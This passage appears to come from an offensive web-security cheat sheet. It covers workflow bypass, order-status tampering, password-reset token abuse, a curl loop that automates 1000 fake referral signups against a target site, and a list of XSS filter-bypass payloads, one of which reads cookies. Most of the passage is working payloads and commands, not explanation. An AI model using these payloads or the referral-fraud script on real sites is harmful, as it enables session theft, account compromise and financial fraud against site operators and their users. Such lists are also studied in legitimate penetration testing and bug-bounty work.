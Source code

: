 ### Workflow Bypass

```bash
# Step sequence bypass
# Normal: step1 -> step2 -> step3 -> payment
# Exploit: step1 -> payment (skip step2, step3)

# Status manipulation
POST /order
{"id": 123, "status": "pending"}
# Change to:
{"id": 123, "status": "completed"}

# Multi-stage function abuse
# 1. Initiate password reset
# 2. Don't complete
# 3. Request again with different email
# 4. Complete first request with second token
```

### Referral/Reward System Abuse

```bash
# Self-referral
# User A refers User A

# Automation
for i in {1..1000}; do
    curl -X POST https://target.com/referral -d "referrer=MYCODE&email=user$i@tempmail.com"
done

# Stack rewards
# Apply multiple promotional codes
# Use affiliate link + coupon + gift card
```

---

## 5. Advanced XSS Techniques {#xss}

### Filter Bypass Techniques

```javascript
// No script tag
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>
<iframe src="javascript:alert(1)">
<object data="javascript:alert(1)">
<embed src="data:text/html,<script>alert(1)</script>">

// No parentheses
<svg onload="alert`1`">
<svg onload="alert(window['document']['cookie'])">
onerror=alert;throw 1

// No quotes
<img src=x onerror=alert(String.fromCharCode(88,83,83))>
<img src=x onerror=alert(/XSS/)>

// No space
<svg/onload=alert(1)>
<img/src=x/onerror=alert(1)>

```